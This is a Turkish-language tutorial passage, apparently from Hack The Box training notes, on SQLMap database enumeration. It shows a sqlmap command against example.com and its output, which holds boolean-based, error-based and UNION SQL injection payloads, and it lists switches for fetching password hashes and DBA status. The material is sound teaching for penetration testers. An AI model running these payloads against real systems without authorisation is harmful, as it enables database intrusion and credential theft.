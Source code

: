 
Örneğin, bir kullanıcı MySQL DBMS tabanlı hedef için “banner” (switch --banner) almak isterse, bu amaçla VERSION() sorgusu kullanılacaktır.
Geçerli kullanıcı adının alınması durumunda (switch --current-user), CURRENT_USER() sorgusu kullanılacaktır.

Bir başka örnek de tüm kullanıcı adlarının alınmasıdır (yani `<users>` etiketi). Duruma bağlı olarak kullanılan iki sorgu vardır. İnband olarak işaretlenen sorgu, sorgu sonuçlarının yanıtın içinde beklenebileceği tüm blind olmayan durumlarda (yani, UNION sorgusu ve hata tabanlı SQLi) kullanılır. Öte yandan, blind olarak işaretlenen sorgu, verilerin satır satır, sütun sütun ve bit bit alınması gereken tüm blind durumları için kullanılır.



### Basic DB Data Enumeration

Genellikle, bir SQLi güvenlik açığının başarılı bir şekilde tespit edilmesinden sonra, güvenlik açığı bulunan hedefin hostname'i (--hostname), mevcut kullanıcının adı (--current-user), mevcut veritabanı adı (--current-db) veya şifre hash'leri (--passwords) gibi veritabanından temel ayrıntıların numaralandırılmasına başlayabiliriz. SQLMap, daha önce tespit edilmişse SQLi tespitini atlayacak ve doğrudan DBMS numaralandırma işlemini başlatacaktır.

Numaralandırma genellikle temel bilgilerin alınmasıyla başlar:

* Database version banner (switch --banner)
* Geçerli kullanıcı adı (switch --current-user)
* Geçerli veritabanı adı (switch --current-db)
* Geçerli kullanıcının DBA (yönetici) haklarına sahip olup olmadığını kontrol etme (switch --is-dba)

Aşağıdaki SQLMap komutu yukarıdakilerin hepsini yapar:

```shell-session
M1R4CKCK@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba

        ___
       __H__
 ___ ___[']_____ ___ ___  {1.4.9}
|_ -| . [']     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org


[*] starting @ 13:30:57 /2020-09-17/

[13:30:57] [INFO] resuming back-end DBMS 'mysql' 
[13:30:57] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 5134=5134

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=1 AND (SELECT 5907 FROM(SELECT COUNT(*),CONCAT(0x7170766b71,(SELECT (ELT(5907=5907,1))),0x7178707671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: id=1 UNION ALL SELECT NULL,NULL,CONCAT(0x7170766b71,0x7a76726a6442576667644e6b476e577665615168564b7a696a6d4646475159716f784f5647535654,0x7178707671)-- -
---
[13:30:57] [INFO] the back-end DBMS is MySQL
[13:30:57] [INFO] fetching banner
web application technology: PHP 5.2.6, Apache 2.2.9
```